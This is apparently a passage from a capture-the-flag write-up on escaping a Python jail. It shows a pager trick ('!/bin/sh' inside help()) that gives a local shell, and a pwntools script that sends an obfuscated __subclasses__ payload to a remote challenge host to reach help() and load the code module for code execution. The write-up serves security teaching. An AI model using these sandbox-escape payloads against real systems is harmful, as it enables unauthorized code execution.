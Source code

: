 So the first step is done. Actually, if pager is available (e.g. locally), we can get shell using `!/bin/sh` in pager:

```shell
$ python3
Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
Ctrl click to launch VS Code Native REPL
>>> help()
Welcome to Python 3.13's help utility! If this is your first time using
Python, you should definitely check out the tutorial at
https://docs.python.org/3.13/tutorial/.

Enter the name of any module, keyword, or topic to get help on writing
Python programs and using Python modules.  To get a list of available
modules, keywords, symbols, or topics, enter "modules", "keywords",
"symbols", or "topics".

Each module also comes with a one-line summary of what it does; to list
the modules whose name or summary contain a given string such as "spam",
enter "modules spam".

To quit this help utility and return to the interpreter,
enter "q", "quit" or "exit".

help> subprocess
# in the pager, input !/bin/sh to get shell
$ 
```

However, it does not work remotely. Therefore, we need more steps.

## Step 2. load new module, and execute function from the newly module to achieve RCE

There are different approachs to achieve RCE:

1. code.InteractiveConsole().interact()
2. pdb.set_trace()

### Use code module

First, let's try the first option. After launching `help()`, enter `code` to load it and enter `quit` to return to the shell:

```python
from pwn import *

context(log_level = "debug")

p = remote("0.cloud.chals.io", 33618)
p.recvuntil(b">> ")
p.sendline(b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D]()()]")
p.recvuntil(b"help> ")
p.sendline(b"code")
p.sendline(b"quit")
p.interactive()
```
